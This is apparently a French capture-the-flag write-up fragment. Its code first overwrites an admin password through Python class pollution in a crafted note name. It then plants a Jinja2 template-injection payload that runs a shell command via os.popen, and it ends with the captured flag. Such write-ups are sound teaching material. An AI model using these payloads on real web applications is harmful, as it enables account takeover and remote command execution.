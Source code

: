 ```python
exp.register()
exp.login(exp.user,exp.pwd)
exp.create_note(
	name  = '__init__.__globals__.__loader__.__init__.__globals__.sys.modules.__main__.users.admin.password',
	value = hashlib.sha256(b'vozec').hexdigest()
)
r = exp.login('admin','vozec')
```

Il ne nous reste plus qu'à créer une note avec un SSTI:
```python
{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}
```

On ajoute à la POC précédente:
```python
exp.create_note(
	name  = 'rce',
	value = "{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}"
)
res = exp.view_note(
	note = 'rce'
)
print(res)
```

On obtient le flag : ``PWNME{D3ep_P0l1ut1oN_C4n_b3_D3s7ruCt1vE_5c}``
